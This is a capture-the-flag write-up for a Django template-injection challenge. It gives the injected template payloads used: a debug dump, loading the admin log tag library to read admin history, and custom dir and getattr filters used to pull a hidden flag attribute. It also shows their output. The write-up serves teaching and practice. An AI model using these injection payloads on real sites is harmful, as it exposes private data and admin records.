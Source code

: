 # Shia Labeouf-off!

One of my teammates mentioned that it was a template injection, so I focused on the ad-lib page.

**http://web.chal.csaw.io:5490/ad-lib/**

So first thing to do was look at what templates we could use, using the [Django Documentation for Built in Template and Filter Tags](https://docs.djangoproject.com/en/1.11/ref/templates/builtins/)

Unfortunately, the only useful ones were
```
{% debug %}
{% load somelibrary %}
{% load sometag from somelibrary %}
```
We can clean up the debug ouput adding a force_escape filter and pre tags:
```
<pre>{% filter force_escape %} {% debug %} {% endfilter %}</pre>
```
Which gives us the following:
```
{'block': <Block Node: content. Contents: [<TextNode: u'\n<pre>'>
<django.template.defaulttags.FilterNode object at 0x7f135efbb3d0>
<TextNode: u'</pre>\n'>]>}{'block': <Block Node: body. Contents:
[<TextNode: u'\n<div class="container">\n'>,
<Block Node: content. Contents: [<TextNode: u'\n            <h1>Example '>]>,
<TextNode: u'\n\n        </div>\n    </di'>]>}{}
{'DEFAULT_MESSAGE_LEVELS': {'DEBUG': 10,
                            'ERROR': 40,
                            'INFO': 20,
                            'SUCCESS': 25,
                            'WARNING': 30},
    u'csrf_token': <SimpleLazyObject: <function _get_val at 0x7f135ef32d70>>,
    'messages': <django.contrib.messages.storage.fallback.FallbackStorage object at 0x7f135efbb7d0>,
    'perms': <django.contrib.auth.context_processors.PermWrapper object at 0x7f135ef61350>,
    u'request': <WSGIRequest: POST '/ad-lib/'>,
    'user': <SimpleLazyObject: <function <lambda> at 0x7f135ef32de8>>}
    {'adjective': '<img src="https://media1.giphy.com/media/TxXhUgEUWWL6/200.webp#129-grid1" />',
    'mrpoopy': <ad-lib.someclass.Woohoo instance at 0x7f135f1136c8>,
    'noun': '<img src="https://media0.giphy.com/media/arNexgslLkqVq/200.webp#70-grid1" />',
    'verb': '<img src="https://media3.giphy.com/media/R0vQH2T9T4zza/200.webp#165-grid1" />'}{'False': False, 'None': None, 'True': True}
```
Note: While debug gives us both the current context and the imported modules, I excluded the module section because it's very long.

While looking at the debug output, out of the very long list of modules, I noticed that template tags were being imported, and decided to try importing some of these.

While attempting to load adlib_extras, I accidentally misspelled it and received an error page:
```
TemplateSyntaxError at /ad-lib/
'adlib_extra' is not a registered tag library. Must be one of:
adlib_extras
admin_list
admin_modify
admin_static
admin_urls
cache
i18n
l10n
log
pools_extras
static
staticfiles
tz
```
Huh, maybe I can enumerate tags in a library using the version of load that loads a specific tag?
```
TemplateSyntaxError at /ad-lib/
'test' is not a valid tag or filter in tag library 'pools_extras'
```
I verified it's not possible to do by examining the Django source code. Oddly enough, they choose to enumerate the tag libraries available, but not the tags in the individual libraries.

However, it dawned on me that while Django's documentation does list the normal built in template tags, the documentation does not list some of the ones I expected to see, and realized that the documentation did not list ones imported from modules, so I started combing the source for more template tags.

After looking through the source, I found what I was looking for, the template tags for the admin module:

[https://github.com/django/django/blob/master/django/contrib/admin/templatetags/log.py](https://github.com/django/django/blob/master/django/contrib/admin/templatetags/log.py)

I was then able to write my own crude implementation of the Django admin log.
```
{% load log %}
{% get_admin_log 1000 as admin_log %}
<ul>
{% for gLog in admin_log %}
<li>{{gLog.user}} {{gLog.content_type}} {{gLog.object_id}} {{gLog.object_repr}} {{gLog.action_flag}} {{gLog.change_message}} {{gLog.action_time}}</li>
{% endfor %}
</ul>
```
Which gives us this:
```
admin poll 3 asdf 1 [{"added": {}}] Sept. 13, 2017, 8:08 p.m.
admin poll 1 Which one would you take into battle? 2 Changed question. Sept. 13, 2017, 2:55 a.m.
admin poll 2 Who is the most Shia of them all? 2 Changed question. Sept. 13, 2017, 2:55 a.m.
admin choice 8 https://media0.giphy.com/media/SPWzxnP0ga2t2/200w.webp#124-grid3 1 Sept. 13, 2017, 2:54 a.m.
admin choice 7 https://media0.giphy.com/media/l2JdV73x6Ifdub8ly/200.webp#93-grid3 1 Sept. 13, 2017, 2:54 a.m.
admin choice 6 https://media2.giphy.com/media/Oh4URwX1apHws/200.webp#66-grid3 1 Sept. 13, 2017, 2:51 a.m.
admin choice 5 https://media3.giphy.com/media/KCd6BFerCh3TG/200.webp#58-grid3 1 Sept. 13, 2017, 2:51 a.m.
admin choice 4 https://media2.giphy.com/media/MVCqaCH3Dzt3q/200.webp#52-grid3 1 Sept. 13, 2017, 2:51 a.m.
admin choice 3 https://media0.giphy.com/media/xT5LMvK0kjdURtXa48/200.webp#38-grid3 1 Sept. 13, 2017, 2:51 a.m.
admin choice 2 https://media3.giphy.com/media/3orifeHgibcQp6tZrG/200.webp#41-grid3 2 No fields changed. Sept. 13, 2017, 2:50 a.m.
admin choice 2 https://media3.giphy.com/media/3orifeHgibcQp6tZrG/200.webp#41-grid3 2 Changed choice_text. Sept. 13, 2017, 2:50 a.m.
admin choice 2 https://media2.giphy.com/media/3oz8xFfwgt4ncWYtva/200.webp#17-grid3 2 Changed choice_text. Sept. 13, 2017, 2:50 a.m.
admin choice 2 https://media3.giphy.com/media/l2Je4rm0DCduJ6QJG/200.webp#16-grid3 1 Sept. 13, 2017, 2:50 a.m.
admin choice 1 https://media2.giphy.com/media/3o7TKP9ln2Dr6ze6f6/giphy.gif 1 Sept. 13, 2017, 2:49 a.m.
admin choice 1 Green 3 Sept. 13, 2017, 2:47 a.m.
admin choice 2 Blue 3 Sept. 13, 2017, 2:47 a.m.
admin choice 3 Red 3 Sept. 13, 2017, 2:47 a.m.
admin choice 4 Yellow 3 Sept. 13, 2017, 2:47 a.m.
admin choice 5 Black 3 Sept. 13, 2017, 2:47 a.m.
admin choice 6 Orange 3 Sept. 13, 2017, 2:47 a.m.
admin choice 7 Other 3 Sept. 13, 2017, 2:47 a.m.
admin choice 8 Paul 3 Sept. 13, 2017, 2:47 a.m.
admin choice 9 John 3 Sept. 13, 2017, 2:47 a.m.
admin choice 10 RIngo 3 Sept. 13, 2017, 2:47 a.m.
admin choice 11 George 3 Sept. 13, 2017, 2:47 a.m.
admin poll 1 What is your favorite color 2 Changed question. Aug. 16, 2013, 1:08 p.m.
admin poll 2 Favorite Beatle 2 Changed question. Aug. 16, 2013, 1:08 p.m.
admin poll 2 Favorite Beatle? 1 Aug. 16, 2013, 1:08 p.m.
admin poll 1 What is your favorite color? 1 Aug. 16, 2013, 11:22 a.m.
```
Unfortunately, the flag was not in here, but upon looking at the log, I noticed that there was a third poll, even though there were only 2 polls on the poll page. That seemed odd, so I decided to check it out.

**http://web.chal.csaw.io:5490/polls/3/**

Visiting this 3rd poll gives us an exception, but in the traceback, I noticed that the traceback gives us some of the code in **./polls/templatetags/pools_extras.py**, which you'll recognize from the earlier debug output.
```
@register.filter(name='getme')
def getme(value, arg):
    return getattr(value, arg)
@register.filter(name='checknum')
	def checknum(value):
        check(value) 
@register.filter(name='listme')
	def listme(value):
        return dir(value)
	def check(value):
        if value > 2:
            raise Exception("Our infrastructure can't support that many Shias!")
```
Having spent the last couple hours learning Django template tags and filters, I recognized these as Django template filter definitions, exposing some python functions, **dir** and **getattr**.

It became pretty clear that I was to use these to get the flag, but from where? Going to back to the debug context output, **mrpoopy** stands out as exposing a class.
```
{{mrpoopy | listme}}
```
Which shows us the the attributes of mrpoopy:
```	
['Woohoo', '__doc__', '__flag__', '__module__']
```	
Now we know where the flag is, let's get it:
```
{{mrpoopy | getme:"__flag__" }}
```	
Which gives us the flag:
```
flag{wow_much_t3mplate}
```